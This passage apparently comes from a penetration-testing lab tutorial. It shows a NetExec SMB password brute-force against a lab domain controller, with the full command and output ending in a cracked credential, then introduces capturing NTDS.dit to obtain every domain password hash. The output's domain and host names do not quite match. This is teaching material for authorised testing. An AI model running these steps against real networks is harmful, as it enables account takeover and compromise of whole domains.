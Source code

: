 #### Launching a brute-force attack with NetExec

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch a brute-force attack against the target domain controller using a tool such as NetExec. We can use it in conjunction with the SMB protocol to send logon requests to the target Domain Controller. Here is the command to do so:

```shell-session
Ovas420@htb[/htb]$ netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```

In this example, NetExec is using SMB to attempt to logon as user (`-u`) `bwilliamson` using a password (`-p`) list containing a list of commonly used passwords (`/usr/share/wordlists/fasttrack.txt`). If the admins configured an account lockout policy, this attack could lock out the account that we are targeting. At the time of this writing (January 2022), an account lockout policy is not enforced by default with the default group policies that apply to a Windows domain, meaning it is possible that we will come across environments vulnerable to this exact attack we are practicing.

#### Event logs from the attack

It can be useful to know what might have been left behind by an attack. Knowing this can make our remediation recommendations more impactful and valuable for the client we are working with. On any Windows operating system, an admin can navigate to `Event Viewer` and view the Security events to see the exact actions that were logged. This can inform decisions to implement stricter security controls and assist in any potential investigation that might be involved following a breach.

Once we have discovered some credentials, we could proceed to try to gain remote access to the target domain controller and capture the NTDS.dit file.

## Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, we could potentially compromise every account on the domain.
